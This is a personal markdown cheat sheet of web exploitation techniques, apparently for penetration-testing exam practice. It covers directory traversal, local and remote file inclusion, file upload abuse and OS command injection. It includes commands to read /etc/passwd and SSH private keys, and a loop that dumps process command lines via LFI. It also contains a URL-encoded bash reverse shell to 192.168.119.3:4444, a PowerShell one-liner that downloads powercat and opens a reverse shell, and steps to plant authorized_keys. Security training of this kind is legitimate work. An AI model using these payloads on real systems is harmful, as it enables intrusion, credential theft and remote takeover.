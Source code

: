 # Directory traversal

- Get username 
    
    ``` /etc/passwd ```

- Exploit directory traversals: Get ssh key

    ``` /home/{username}/.ssh/id_rsa
    vim key
    chmod 400 dt_key
     ```
    
-  Window: 
   ``` C:\Users\All Users\ssh\ssh_host_rsa_key.pub  ```

- Encoding special character
    
    e.g. . -> %2f 

- cgi-bin vuln

- Encoding not a must

# File Inclusion Vuln

- Loading a file and attach CMD

- Reverse shell & web shell
## Interesting Arguments
1. ``` powershell.exe -EncodedCommand {base64 command} ```

## Local File Inclusion LFI
### Auto smash LFI
- https://github.com/D35m0nd142/LFISuite 
### For loop get linux process by LFI
- edit the path
- ```
  for i in $(seq 0 2000); do echo -n "$i:"; curl google.com/wp-content/plugins/filter.php?url=../../../../../../../../../../../proc/$i/cmdline --output -;echo; done
  ```

- Header poison URL may differs from Log Poisoning 
- TCP reverse shell one-liner
  ``` bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 ```
1. try find useful password after /etc/passwd for opening services (you scanned!) e.g. redis have rce -> go get ``` /etc/redis/redis.conf ```
2. can use it to priv esc too! -> creating a rogue php inside the file system and load it e.g. /run/redis/test.php || CHECK ALL WRITABLE PATH!!c
3. See the source code of the web! e.g. index.php, main.py
### Interesting file path
1. Service configuration files
2. leaked db file path e.g. /var/db/mydb <- this is sqlite
3. oscp cheat sheet listed files
4. [Windows] Progra~1 = program files | Progra~2 = program files (x86)

### WAF?
1. Only Local host:
- Try adding ``` X-Forwarded-For: 127.0.0.1 ```

## RFI
### Linux
- Host a web server for exposing exploit php 
  e.g. php-reverse-shell.php
  ``` python3 -m http.server 80 ```
- open reverse shell server
    ``` nc -lvnp 4444 ```
- RFI request to the website
  ``` ?page=http://{ip}/php-reverse-shell.php ```
### Windows
- smbserver 445
- ``` \\kali\test.php ```



# File Upload Vuln
 
## w/ Executable Files
1. Prepare a file that can run CMD
2. Reverse shell
3. file type exclusion e.g. php -> pHP
4. aspx -> mspx  


## w/o Executable Files
1. Generate SSH key: will get id_rsa and id_rsa.pub 

    ``` ssh-keygen ```

2. Edit filename of ``` id_rsa.pub ``` to ``` authorized_keys ```

3. Upload to the file to /home/{user}/.ssh OR /root/.ssh

4. Login with ssh ``` ssh emilia@ip -i -id_rsa ```

- Becareful have to remove ```.ssh/known_hosts``` in kali pc since different section computer


# OS Cmd injection

- Check which command is allow which is not, then use ``` & ``` to piggyback it


- Windows oneliner get vuln file & reverse shell
``` IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell  ```

- exploitable could be ``` ;  && ```
- remember to encode url sometimes
